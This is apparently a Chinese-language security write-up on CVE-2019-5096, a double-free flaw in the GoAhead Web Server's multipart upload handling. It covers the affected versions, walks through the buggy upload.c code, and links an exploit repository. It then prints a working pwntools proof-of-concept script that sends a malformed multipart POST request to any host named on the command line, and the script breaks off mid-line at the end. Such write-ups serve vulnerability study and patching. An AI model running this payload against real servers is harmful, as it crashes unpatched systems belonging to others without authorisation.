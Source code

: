 （CVE-2019-5096） 远程代码溢出漏洞
==================================

一、漏洞简介
------------

GoAhead
Web服务器最近被曝光在版本v5.0.1，v.4.1.1和v3.6.5中存在一个可利用的代码执行漏洞，漏洞存在http请求的multi-part/form-data字段处理中，若是发送畸形的HTTP请求，可导致GoAhead
Web服务器在处理此请求期间触发double-free漏洞。
该畸形请求可以未经身份验证的GET或POST请求形式发送，并且请求的服务器上不需要存在web页面。

二、漏洞影响
------------

v5.0.1，v.4.1.1和v3.6.5

三、复现过程
------------

### 漏洞分析

漏洞曝光者给出了触发漏洞的源码：

    / src/upload.c /
    66 static void freeUploadFile(WebsUpload *up)
    67 {
    68 if (up) {
    69 if (up->filename) { // BUG: First UAF here
    70 unlink(up->filename); // BUG: UAF/unlink - probably not a good idea
    71 wfree(up->filename); // BUG: Double free here
    72 }
    73
    74 wfree(up->clientFilename);
    75 wfree(up->contentType);
    76 wfree(up);
    77 }
    78 }

经过笔者的分析发现，freeUploadFile（）函数会在/src/upload.c的websFreeUpload（）函数中调用，而websFreeUpload（）函数会在/src/http.c中调用，/src/http.c中termWebs（）函数会调用websFreeUpload（）函数，/src/http.c中reuseConn（）函数会调用termWebs（）函数，从中可以看出漏洞触发函数freeUploadFile（）的调用过程。

在函数freeUploadFile（）的调用过程中，查看源码可发现有两行如下代码：

    / src/upload.c /
    255 freeUploadFile(wp->currentFile);
    256 file = wp->currentFile = walloc(sizeof(WebsUpload));

在此处变量
wp-\>currentFile会被free一次，但是被free的变量wp-\>currentFile在代码：

    / src/upload.c /
    371 hashEnter(wp->files, wp->uploadVar, valueSymbol(file), 0);
    372 defineUploadVars(wp);

在此处代码中把变量wp-\>currentFile加入了一个数组中，该数组中的变量在接下来的代码中会被free一次，free代码如下：

    / src/upload.c /
    86 for (s = hashFirst(wp->files); s; s = hashNext(wp->files, s)) {
    87 up = s->content.value.symbol;
    88 freeUploadFile(up);

变量wp-\>currentFile再次被free之后，导致了double-free漏洞触发，是fastbin
double free，利用方法和思路已经很成熟。

### poc

> <https://github.com/ianxtianxt/CVE-2019-5096-GoAhead-Web-Server-Dos-Exploit>

    from pwn import *
    import time
    import sys
    r = remote(sys.argv[1],8080)
    rn = b"\r\n"

    payload=b''
    payload +=b"--siiit"+rn
    payload +=b"Content-Disposition: form-data; name=\"shit1\"; filename=\"shit.file\";"+rn
    payload+= rn
    payload+=b"HelloWorld!"+rn
    payload +=b"--siiit"+rn
    payload +=b"Content-Disposition: form-data;  name=\"shit2\"; filename=\"shit2.file\""+rn
    payload+= rn
    payload+=b"FuckkWorld!"+rn
    payload +=b"--siiit"+rn

    data = b"POST / HTTP/1.1\r\nHost:HelloWorld:8080\r\n"
    data +=b"content-type:multipart/form-data"+rn
    data +=b"content-type:boundary=siiit"+rn
    data +=b"content-length:"+str(len(payload)).encode()+rn
    data +=b"cookie:"+b'a'*0x1+rn
    data +=rn
    data +=payload


    r.send(data)
    sleep(20)
    try:
        dat=r.recvn(1024)
        print(dat)
        r.close()
    except:
        r.close(
